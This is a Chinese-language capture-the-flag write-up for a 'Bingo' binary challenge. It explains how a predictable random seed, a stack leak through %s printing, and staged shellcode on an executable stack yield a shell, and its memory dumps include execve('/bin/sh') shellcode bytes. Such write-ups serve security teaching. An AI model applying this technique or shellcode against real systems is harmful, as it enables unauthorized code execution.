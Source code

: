 # Bingo

```
Arch:     amd64-64-little 
RELRO:    Partial RELRO   
Stack:    No canary found 
NX:       NX disabled     
PIE:      PIE enabled     
RWX:      Has RWX segments
```

## Analysis

這題顧名思義在玩 bingo。我們要輸入 16 個數字，一旦對其中 8 個就算贏，並且可以再輸入一些東西，這個地方有 overflow 的漏洞。  
因為產生答案用的亂數種子是 0，所以那 16 個數字會是已知且固定的。
但是這題有開 `PIE`，沒辦法直接造 ROP 出來。不過 `DEP` 是關掉的，所以可以想辦法寫 shellcode 來跑。

```c
// 這題的 input function

for ( i = 0; ; ++i )
{
    result = (unsigned int)i;
    if ( i >= (signed int)len )
        break;
    read(0, &buf[i], 1uLL);
    if ( buf[i] == '\n' )
        buf[i] = 0;
    result = (unsigned __int8)buf[i];
    if ( !(_BYTE)result )
        break;
}
return result;
```

我原本是想利用 null byte overflow 來做事，不過發現資訊真的太少，沒頭緒了好一陣子才終於想到應該先去看哪邊可以 leak 東西XD

## Exploit

程式是用 `%s` 來印我們輸入的數字，所以如果輸入第 16 個數字時補滿 4byte，就可以 leak 出後面的 stack address (下圖**粗體**部分)。

<pre>
                            --------------------------------------------
0x7ffe88be2720: num_buf -> | 0x00007f85b0f50620      0x00000010e45e0ef8 |
0x7ffe88be2730:            | 0x0000363800333831      0x0035313100373731 |
0x7ffe88be2740:            | 0x0035333100333931      0x0000323900363831 |
0x7ffe88be2750:            | 0x0000313200003934      0x0000373200323631 |
0x7ffe88be2760:            | 0x00003935e4003039      0x9039393100333631 |
                            --------------------------------------------
0x7ffe88be2770:              <b>0x00007ffe88be2780</b>      0x0000558ae45e0e49 <- playBingo() 的 ret address
0x7ffe88be2780:              0x0000558ae45e0e50      0x00007f85b0bab830
</pre>

有了 stack address 之後，就可以在 stack 上寫 shellcode，然後 return 過去跑。  
不過因為入長度不太夠，前面輸入數字那邊又有很多檢查，不能把 shellcode 直接寫在那邊。這裡我事先寫一段呼叫 `read` 的 shellcode (下圖**粗體**部分)，把最後的 shellcode (下圖++底線++部分) 讀上 stack，中間斷層的部分就用 `nop` 填補。

<pre>
0x7ffe88be2720:              0x00007f85b0f50620      0x00000010e45e0ef8
0x7ffe88be2730:              0x0000363800333831      0x0035313100373731
0x7ffe88be2740:              0x0035333100333931      0x0000323900363831
0x7ffe88be2750:              0x0000313200003934      0x0000373200323631
0x7ffe88be2760:              0x00003935e4003039      0x<b>48da894c</b>00333631
0x7ffe88be2770:              0x909090<b>050f06ee83</b>      0x<u>490000003bc0c748</u>
0x7ffe88be2780:              0x<u>68732f6e69622fb8</u>      0x<u>3148e78948504100</u>
0x7ffe88be2790:              0x0000<u>050fd23148f6</u>      0x00007ffe88be2868
</pre>

這樣一路滑下去之後就可以開 shell 了！

flag: `FLAG{THIS_challenge_is_too_easy_QQ}`
